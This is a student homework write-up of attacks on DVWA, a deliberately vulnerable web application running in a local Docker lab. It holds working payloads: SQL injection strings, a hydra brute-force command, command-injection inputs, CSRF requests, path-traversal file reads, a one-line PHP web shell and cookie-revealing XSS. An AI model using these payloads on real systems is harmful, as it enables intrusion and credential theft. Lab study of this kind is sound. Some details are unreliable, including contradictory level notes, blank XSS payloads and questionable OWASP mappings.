# Cybersecurity Homework – DVWA Vulnerabilities

# Ikramah Elahi (ie08941)

## Brute Force

### LOW
**Payload Used:**  
`username = admin' OR '1'='1`

**Result:**  
Login successful.  


**Why it worked:**  
The login form does not properly validate input. The payload makes the SQL query always true.

**Why it failed at higher level:**  
Higher security levels sanitize input before it reaches the database.

---

### MEDIUM
**Payload Used:**  
`hydra -l admin -P /usr/share/wordlists/rockyou.txt.gz 192.168.44.172 http-get-form "/dvwa/vulnerabilities/brute/:username=^USER^&password=^PASS^&Login=Login:H=Cookie:PHPSESSID=534uuj0t5702leo6gmot7b5c76;security=high:F=Username and/or password incorrect."`

**Result:**  
Correct password discovered through brute force.  


**Why it worked:**  
The account used a weak password that exists in common password lists.

**Why it failed at higher level:**  
Higher security adds delays and protection mechanisms against automated login attempts.

---

### HIGH
**Payload Used:**  
`hydra -l admin -P /usr/share/wordlists/rockyou.txt.gz 192.168.44.172 http-get-form "/dvwa/vulnerabilities/brute/:username=^USER^&password=^PASS^&Login=Login:H=Cookie:PHPSESSID=534uuj0t5702leo6gmot7b5c76;security=high:F=Username and/or password incorrect."`

**Result:**  
Correct password discovered through brute force.  


**Why it worked:**  
With only one thread running, the random delay did not stop us from telling the difference between correct and incorrect passwords.

**Why it failed at higher level:**  
It still worked because the delay was not strong enough to fully stop the attack.

---

## Command Injection

### LOW
**Payload Used:**  
`127.0.0.1; ls`

**Result:**  
Server files were listed.  


**Why it worked:**  
The application executes user input directly in a system command.

**Why it failed at higher level:**  
Higher security filters dangerous characters such as `;`.

---

### MEDIUM
**Payload Used:**  
`asda || ls`

**Result:**  
Command executed and files listed.  


**Why it worked:**  
`||` executes the second command when the first command fails.

**Why it failed at higher level:**  
Higher levels filter command operators.

---

### HIGH
**Payload Used:**  
`|ls`

**Result:**  
Files from the server were displayed.  


**Why it worked:**  
The filter only blocked `|` with a space, so `|ls` bypassed it.

**Why it failed at higher level:**  
Stronger validation only allows valid IP input.

---

## CSRF

### LOW
**Payload Used:**  
`http://localhost:8080/vulnerabilities/csrf/?password_new=pwned&password_conf=pwned&Change=Change`

**Result:**  
User password changed successfully.  


**Why it worked:**  
The site does not verify the source of the request.

**Why it failed at higher level:**  
Higher security uses tokens to verify legitimate requests.

---

### MEDIUM
**Payload Used:**  
`curl.exe -v --referer "http://localhost:8080/vulnerabilities/csrf/" "http://localhost:8080/vulnerabilities/csrf/?password_new=pwn&password_conf=pwn&Change=Change#" -b "PHPSESSID=r0mns51mv27k5ot51g8fea50h1; security=medium"`

**Result:**  
User password changed successfully.  


**Why it worked:**  
We manually set the Referer header to match the expected page, so the request was accepted by the server.

**Why it failed at higher level:**  
At higher security levels, the request requires a unique CSRF token, which cannot be easily recreated or guessed.

---

## File Inclusion

### LOW
**Payload Used:**  
`php://filter/convert.base64-encode/resource=../../../../../var/www/html/hackable/flags/fi.php`

**Result:**  
Sensitive file contents revealed.  


**Why it worked:**  
The application allows unrestricted file paths.

**Why it failed at higher level:**  
Higher security validates allowed file locations.

---

### MEDIUM
**Payload Used:**  
`....//....//....//....//....//var/www/html/hackable/flags/fi.php`

**Result:**  
Sensitive file contents displayed.  


**Why it worked:**  
The filter only removed `../` once, allowing bypass.

**Why it failed at higher level:**  
Improved path validation blocks traversal attempts.

---

### HIGH
**Payload Used:**  
`file:///var/www/html/hackable/flags/fi.php`

**Result:**  
File contents displayed in the browser.  


**Why it worked:**  
The browser loaded the local file using the `file://` protocol.

**Why it failed at higher level:**  
The system restricts allowed files to a predefined list.

---

## File Upload

### LOW
**Payload Used:**
```php
<?php system($_REQUEST["cmd"]); ?>
```

**Result:**  
Malicious PHP file uploaded and executed.  
  


**Why it worked:**  
The server does not check file type or contents.

**Why it failed at higher level:**  
Later levels verify file type before upload.

---

### MEDIUM
**Payload Used:**  
Upload request modified with `type=image/jpeg`.

**Result:**  
File successfully uploaded and executed.  
  


**Why it worked:**  
The server trusted the file type in the request header.

**Why it failed at higher level:**  
Higher security checks the actual file contents.

---

## SQL Injection

### LOW
**Payload Used:**  
`0' UNION SELECT first_name, password FROM users #`

**Result:**  
All usernames and passwords displayed.  


**Why it worked:**  
User input was directly inserted into the SQL query.

**Why it failed at higher level:**  
Input validation prevents query manipulation.

---

### MEDIUM
**Payload Used:**  
Modified dropdown value to `1 OR 1=1`.

**Result:**  
Database returned all user records.  
  


**Why it worked:**  
POST request values were not validated.

**Why it failed at higher level:**  
Input is restricted to numeric values.

---

### HIGH
**Payload Used:**  
`0' UNION SELECT first_name, password FROM users #`

**Result:**  
User credentials retrieved.  


**Why it worked:**  
Improper filtering allowed SQL query manipulation.

**Why it failed at higher level:**  
Strict numeric validation prevents injection.

---

## XSS (DOM)

### LOW
**Payload Used:**  
Injected script in URL parameter.

**Result:**  
Browser displayed cookie in alert.  


**Why it worked:**  
Input from the URL was not validated.

**Why it failed at higher level:**  
Only predefined values are allowed.

---

### MEDIUM
**Payload Used:**  
Same payload.

**Result:**  
Cookie displayed in alert.  


**Why it worked:**  
Filter only blocked `<script>` tags.

**Why it failed at higher level:**  
Stronger validation blocks injected HTML.

---

### HIGH
**Payload Used:**  
Script after URL fragment.

**Result:**  
Alert executed.  


**Why it worked:**  
The browser processed the fragment even though the server ignored it.

**Why it failed at higher level:**  
Browser encoding prevents execution.

---

## XSS (Reflected)

### LOW
**Payload Used:**  
`<script>alert(document.cookie)</script>`

**Result:**  
Cookies displayed.  


**Why it worked:**  
Input reflected directly on the page.

**Why it failed at higher level:**  
Script tags are filtered.

---

### MEDIUM
**Payload Used:**  
``

**Result:**  
Cookies displayed.  


**Why it worked:**  
The filter only blocked script tags.

**Why it failed at higher level:**  
Special characters are encoded.

---

### HIGH
**Payload Used:**  
``

**Result:**  
Cookies displayed.  
  


**Why it worked:**  
Other HTML elements could still execute JavaScript.

**Why it failed at higher level:**  
Output encoding blocks script execution.

---

## XSS (Stored)

### LOW
**Payload Used:**  
`<script>alert("XSS")</script>`

**Result:**  
Alert popup appears when visiting the page.  


**Why it worked:**  
The script was stored in the database and executed when displayed.

**Why it failed at higher level:**  
Special characters are encoded before display.

---

### MEDIUM
**Payload Used:**  
Same payload.

**Result:**  
Alert popup appears.  


---

### HIGH
**Payload Used:**  
Same payload.

**Result:**  
Alert popup appears.  


---

# Security Analysis

### Why does SQL Injection succeed at Low security?
At low security, the application does not validate or sanitize user input before using it in SQL queries.

### What control prevents it at High?
High security levels enforce input validation and restrict queries to safe formats.

### Does HTTPS prevent these attacks?
No. HTTPS encrypts communication but does not protect against vulnerabilities in the application itself.

### What risks exist if this application is deployed publicly?
Attackers could steal sensitive data, modify database records, upload malicious files, or take control of user accounts.

### OWASP Top 10 Mapping
- Brute Force → A2 – Broken Authentication  
- Command Injection → A1 – Injection  
- CSRF → A5 – Security Misconfiguration  
- File Inclusion → A1 – Injection  
- File Upload → A5 – Security Misconfiguration  
- SQL Injection → A1 – Injection  
- XSS (DOM) → A3 – Cross Site Scripting  
- XSS (Reflected) → A3 – Cross Site Scripting  
- XSS (Stored) → A3 – Cross Site Scripting

---

### Docker Inspection

`docker ps`


`docker inspect dvwa`


`docker logs dvwa`


`docker exec -it dvwa /bin/bash` inside container `ls /var/www/html`


## Where application files are stored
The DVWA application files are stored in `/var/www/html`, which is the default web root directory used by the Apache web server inside the container.

## What backend technology DVWA uses
DVWA uses **PHP** as the server-side programming language, **MySQL/MariaDB** as the database, and **Apache** as the web server. Together, this forms a **LAMP stack (Linux, Apache, MySQL, PHP)**.

## How Docker isolates the environment
Docker isolates applications using containers that separate processes, filesystems, networking, and dependencies from the host system. This allows the DVWA application to run in its own controlled environment without affecting the host machine.
